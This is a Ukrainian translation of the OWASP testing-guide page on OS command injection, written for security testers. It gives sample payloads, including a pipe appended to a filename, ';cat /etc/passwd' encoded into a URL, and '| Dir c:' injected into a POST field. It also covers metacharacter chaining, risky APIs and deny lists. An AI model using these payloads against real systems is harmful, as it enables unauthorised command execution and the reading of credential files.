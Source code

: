 # Тестування для введення команд

| ID |
| -- |
| WSTG-INPV-12 |

## Огляд

У цій статті описано, як перевірити програму на впровадження команд ОС. Тестер спробує ввести команду ОС через HTTP-запит до програми.

Впровадження команд ОС — це техніка, яка використовується через веб-інтерфейс для виконання команд ОС на веб-сервері. Користувач подає команди операційної системи через веб-інтерфейс для виконання команд ОС. Будь-який веб-інтерфейс, який не оброблено належним чином, підпадає під дію цього експлойту. Маючи можливість виконувати команди ОС, користувач може завантажувати шкідливі програми або навіть отримувати паролі. Впровадженню команд ОС можна запобігти, якщо під час проектування та розробки програм наголошується на безпеці.

## Цілі тесту

* Визначити та оцінити точки введення команд.

## Як тестувати

Під час перегляду файлу у веб-програмі назва файлу часто відображається в URL-адресі. Perl дозволяє передавати дані з процесу у відкритий оператор. Користувач може просто додати символ труби **|** на кінець імені файлу.

Приклад URL-адреси до зміни:

**http://sensitive/cgi-bin/userData.pl?doc=user1.txt**

Приклад зміненої URL-адреси:

**http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|**

Це виконає команду **/bin/ls**.

Додавання крапки з комою в кінці URL-адреси для сторінки .PHP, а потім команди операційної системи, виконає команду. **%3B** кодується URL-адреса та розшифровується до крапки з комою

приклад:

**http://sensitive/something.php?dir=%3Bcat%20/etc/passwd**

## Приклад

Розглянемо випадок програми, яка містить набір документів, які можна переглядати в Інтернеті. Якщо ви запускаєте особистий проксі-сервер (наприклад, ZAP або Burp Suite), ви можете отримати POST HTTP, як показано нижче (**http://www.example.com/public/doc**):

    POST /public/doc HTTP/1.1
    Хост: www.example.com
    [...]
    Реферер: http://127.0.0.1/WebGoat/attack?Screen=20
    Файл cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Авторизація: Базовий T2Vbc1Q9Z3V2Tc3e=
    Тип вмісту: application/x-www-form-urlencoded
    Тривалість: 33

    Doc=Doc1.pdf

У цьому запиті на публікацію ми помітили, як програма отримує загальнодоступну документацію. Тепер ми можемо перевірити, чи можливо додати команду операційної системи для введення в POST HTTP. Спробуйте наступне (**http://www.example.com/public/doc**):

    POST /public/doc HTTP/1.1
    Хост: www.example.com
    [...]
    Реферер: http://127.0.0.1/WebGoat/attack?Screen=20
    Файл cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Авторизація: Базовий T2Vbc1Q9Z3V2Tc3e=
    Тип вмісту: application/x-www-form-urlencoded
    Тривалість: 33

    Doc=Doc1.pdf+|+Dir c:

Якщо програма не перевіряє запит, ми можемо отримати такий результат:
    
    Результати виконання для 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
     Вихід...
     Il volume nell'unità C non ha etichetta.
     Номер серії Del volume: 8E3F-4B61
     Каталог c:\
      18/10/2006 00:27 2675 Dir_Prog.txt
      18/10/2006 00:28 3887 Dir_ProgFile.txt
      16.11.2006 10:43
         Док
         11.11.2006 17:25
            Документи і налаштування
            25/10/2006 03:11
               I386
               14.11.2006 18:51
              h4ck3r
              30.09.2005 21:40 25934
             OWASP1.JPG
             11.03.2006 18:29
                 Прог
                 18.11.2006 11:20
                     Програмні файли
                     16.11.2006 21:12
                         програмне забезпечення
                         24.10.2006 18:25
                             Налаштування
                             24.10.2006 23:37
                                 Технології
                                 18.11.2006 11:14
                                 3 Файл 32 496 байт
                                 13 Доступний каталог 6 921 269 248 байт
                                 Код повернення: 0

У цьому випадку ми успішно здійснили атаку ін’єкції ОС.

Спеціальні символи для введення команди

Наступні спеціальні символи можна використовувати для введення команди, наприклад **|** **;** **&** **$** **>** **<** **'** **!**

**cmd1|cmd2** : Використання **|** змусить виконати команду 2 чи успішно виконати команду 1.
**cmd1;cmd2** : Використання **;** змусить виконати команду 2 чи успішно виконати команду 1.
**cmd1||cmd2** : Команда 2 буде виконана, лише якщо виконати команду 1 не вдалося.
**cmd1&&cmd2** : Команда 2 буде виконана, лише якщо виконання команди 1 буде успішним.
**$(cmd)** : наприклад, **echo $(whoami)** або **$(touch test.sh; echo 'ls' > test.sh)**
**cmd**: використовується для виконання певної команди. Наприклад, **whoami**
**>(cmd)**: **>(ls)**
**<(cmd)**: **<(ls)**

## Перевірка коду на наявність небезпечного API

Пам’ятайте про використання наступного API, оскільки це може спричинити ризики впровадження команд.

#### Java

* Runtime.exec()

#### C/C++
 
* system
* exec
* ShellExecute

#### Python

* exec
* eval
* os.system
* os.popen
* subprocess.popen
* subprocess.call

#### PHP

* system
* shell_exec
* exec
* proc_open
* eval

## Рішення

### Санітизація вводу

URL-адресу та дані форми необхідно очистити від недійсних символів. Список заборонених символів є варіантом, але може бути важко придумати всі символи для перевірки. Також можуть бути деякі, які ще не виявлені. Щоб перевірити введені користувачем дані, потрібно створити список дозволених символів або список команд. Пропущені символи, а також невиявлені загрози повинні бути усунені цим списком.

Загальний список заборон, який слід включити для впровадження команди, може бути ***| ; & $ > < ' \ ! >> #***

Екранування або фільтрування спеціальних символів для вікон, ***( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `** Екранування або фільтрація спеціальних символів для Linux, ***{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " % / \ : + , `***

## Дозволи

Веб-програма та її компоненти мають працювати із суворими дозволами, які не дозволяють виконувати команди операційної системи. Спробуйте перевірити всю цю інформацію, щоб перевірити з точки зору тестування сірого ящика.
